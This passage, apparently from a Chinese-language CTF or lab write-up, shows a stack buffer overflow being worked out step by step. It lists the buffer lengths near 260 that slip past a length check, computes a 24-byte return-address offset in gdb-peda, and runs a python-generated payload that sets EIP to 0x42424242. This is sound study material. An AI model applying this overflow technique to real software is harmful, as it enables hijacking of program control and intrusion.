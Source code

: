 ```
test ok: 772
test ok: 773
test ok: 774
test ok: 775
test ok: 776

```
说明在1000以内，符号条件的长度值有以上几组，意味着，向passwd_buf放入长度是260～264等时，既可对passwd_buf溢出，又可以绕过条件限制。


那么，passwd_buf到返回地址的偏移是多少呢？还是需要借助GDB动态计算一下，
先计算EBP到passwd_buf的偏移，再加一个4就是passwd_buf到返回地址之间的偏移值了。


```
gdb-peda$ p /x &passwd_buf
$4 = 0xbf8dd054
gdb-peda$ p 0xbf8dd068 - 0xbf8dd054 + 0x4
$6 = 0x18

```
偏移值就是0x18,即24个字节长度

测试验证：

```
gdb-peda$ r funny `python -c 'print "A"*24 + "B"*4 + "c"*232'`

[----------------------------------registers-----------------------------------]
EAX: 0xbf97c424 ('A' <repeats 24 times>, "BBBB", 'c' <repeats 172 times>...)
EBX: 0xb773b000 --> 0x1aada8 
ECX: 0xbf97d860 --> 0x58006363 ('cc')
EDX: 0xbf97c526 --> 0xde006363 
ESI: 0x0 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbf97c440 ('c' <repeats 200 times>...)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbf97c440 ('c' <repeats 200 times>...)
0004| 0xbf97c444 ('c' <repeats 200 times>...)
0008| 0xbf97c448 ('c' <repeats 200 times>...)
0012| 0xbf97c44c ('c' <repeats 200 times>...)
0016| 0xbf97c450 ('c' <repeats 200 times>...)
0020| 0xbf97c454 ('c' <repeats 200 times>...)
0024| 0xbf97c458 ('c' <repeats 200 times>...)
0028| 0xbf97c45c ('c' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()


```
注： 这里以数组长度为260为例，进行溢出测试，可以看出，正好EIP变成了EIP: 0x42424242 ('BBBB')，代表之间算出的偏移距离是正确的。
